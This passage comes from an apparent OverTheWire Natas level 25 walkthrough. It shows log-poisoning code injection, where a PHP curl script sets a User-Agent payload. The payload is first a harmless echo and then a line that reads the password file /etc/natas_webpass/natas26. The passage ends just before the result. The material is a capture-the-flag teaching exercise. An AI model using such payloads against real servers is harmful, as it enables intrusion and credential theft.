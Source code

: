 You can see a basic CURL request, to the natas25 server, using the same url as we did before, but we are going to use a new parameter, called `CURLOPT_USERAGENT`. With this, we can set the User-Agent string that the curl request is going to send to the server. For now, we send a very basic trick 
```php 
<?php echo "This is a string from echo, yay!"; ?>
```
Our goal is, when we run this script, and we visit the page again, we should see `This is a string from echo, yay!` in the printed-out log file.

After running the script, reload the page:

![](img/task_25_image_1.png)

There it is! We can see our string that we've just sent in the User-Agent string! Let's go a little bit further: Change the part:

```php
curl_setopt($ch, CURLOPT_USERAGENT, '<?php echo "This is a string from echo, yay!"; ?>');
```  
to:  

```php
curl_setopt($ch, CURLOPT_USERAGENT, '<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>');
```  

Hopefully, we can print out the password to the log file. After running the modified script, and refreshing the webpage:  
